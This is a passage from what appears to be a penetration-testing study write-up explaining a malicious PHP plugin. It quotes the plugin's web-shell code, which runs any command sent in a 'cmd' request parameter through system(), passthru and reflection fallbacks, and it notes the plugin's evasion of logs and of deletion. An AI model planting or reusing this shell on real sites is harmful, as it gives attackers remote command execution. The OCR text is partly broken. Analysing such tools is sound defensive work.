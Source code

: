 ![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/24/30.jpg)
 
•  Lines 12-14 attempt protect the file from being deleted by the system.
 
 19 # test if parameter 'cmd', 'ip or 'port' is present. If not this will avoid an err
or on logs or on all pages if badly configured.
20 if(isset($_REQUEST[$cmd])) {
21
22 # grab the command we want to run from the 'cmd' GET or POST parameter (POST d
on't display the command on apache logs)
23 $command = $_REQUEST[$cmd];
24 executeCommand($command);
 
![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/24/31.jpg)
 
 
• Lines 20-24 will attempt to run a system command if the cmd variable is set in the HTTP request.

• The plugin will use the execute Command function in order to identify and execute the appropriate PHP internal API to run a command on the target system.

•  The execute Command function can befound on Lines 47-82.
 
 47 function executeCommand(string $command) {
48
49 # Try to find a way to run our command using various PHP internals
50 if (class_exists('ReflectionFunction')) {
51
52 # http://php.net/manual/en/class.reflectionfunction.php
53 $function = new ReflectionFunction('system');
54 $function->invoke($command);
55
56 } elseif (function_exists('call_user_func_array')) {
57
58 # http://php.net/manual/en/function.call-user-func-array.php
59 call_user_func_array('system', array($command));
60
61 } elseif (function_exists('call_user_func')) {
62
63 # http://php.net/manual/en/function.call-user-func.php
64 call_user_func('system', $command);
65
66 } else if(function_exists('passthru')) {
67
68 # https://www.php.net/manual/en/function.passthru.php
69 ob_start();
70 passthru($command , $return_var);
71 $output = ob_get_contents();
72 ob_end_clean();
73
74 } else if(function_exists('system')){
75
76 # this is the last resort. chances are PHP Suhosin
77 # has system() on a blacklist anyways :>
78
79 # http://php.net/manual/en/function.system.php
80 system($command);
81 }
82 }
 